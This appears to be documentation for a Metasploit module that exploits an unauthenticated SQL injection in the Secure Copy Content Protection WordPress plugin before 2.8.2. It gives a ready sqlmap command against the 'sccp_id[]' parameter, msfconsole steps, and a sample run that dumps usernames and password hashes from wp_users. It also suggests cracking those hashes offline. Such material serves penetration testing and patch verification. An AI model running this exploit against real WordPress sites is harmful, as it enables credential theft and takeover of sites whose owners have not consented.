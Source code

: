 ## Vulnerable Application

Secure Copy Content Protection and Content Locking, a WordPress plugin,
prior to 2.8.2 is affected by an unauthenticated SQL injection via the
`sccp_id[]` parameter.

Remote attackers can exploit this vulnerability to dump usernames and password hashes
from the`wp_users` table of the affected WordPress installation. These password hashes
can then be cracked offline using tools such as Hashcat to obtain valid login
credentials for the affected WordPress installation.

A vulnerable version (2.8.1) of the plugin can be downloaded
[here](https://downloads.wordpress.org/plugin/secure-copy-content-protection.2.8.1.zip)

The output from running this module will be somewhat similar to the following `sqlmap` command:

```
sqlmap --dbms=mysql -u "http://1.1.1.1/wp-admin/admin-ajax.php?action=ays_sccp_results_export_file&sccp_id[]=3)*&type=json" --technique T -T wp_users -C user_login,user_pass --dump
```

## Verification Steps

1. Install the plugin, use defaults
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/wp_secure_copy_content_protection_sqli`
4. Do: `set rhosts [ip]`
5. Optionally set `USER_COUNT` to the number of users you want to dump the credentials of.
5. Do: `run`
6. *Verify* that `USER_COUNT` number of users's usernames and password hashes are gathered from the `wp_users` table of the target WordPress installation.
## Options

### ACTION: List Users

This action exploits the unauthenticated SQL injection and lists `USER_COUNT`
users and password hashes from the `wp_users` table of the affected WordPress installation.

### USER_COUNT

If action `List Users` is selected (default), this is the number of users to enumerate the credentials of.
The larger this number, the more time it will take for the module to run.  Defaults to `3`.

## Scenarios

### Secure Copy Content Protection and Content Locking 2.8.1 on Wordpress 5.7.5 on Ubuntu 20.04

```
resource (secure_copy.rb)> use auxiliary/scanner/http/wp_secure_copy_content_protection_sqli
resource (secure_copy.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (secure_copy.rb)> set verbose true
verbose => true
resource (secure_copy.rb)> set limit 1
limit => 1
resource (secure_copy.rb)> run
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/secure-copy-content-protection/readme.txt
[*] Checking /wp-content/plugins/secure-copy-content-protection/Readme.txt
[*] Checking /wp-content/plugins/secure-copy-content-protection/README.txt
[*] Found version 2.8.1 in the plugin
[+] The target appears to be vulnerable.
[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(dwOr) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) dwOr from wp_users limit 3) fOXVNQ)
[*] {SQLi} Encoded to (select group_concat(dwOr) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0x16,0)),ifnull(user_pass,repeat(0xa1,0))) as binary) dwOr from wp_users limit 3) fOXVNQ)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] Dumped table contents:
wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
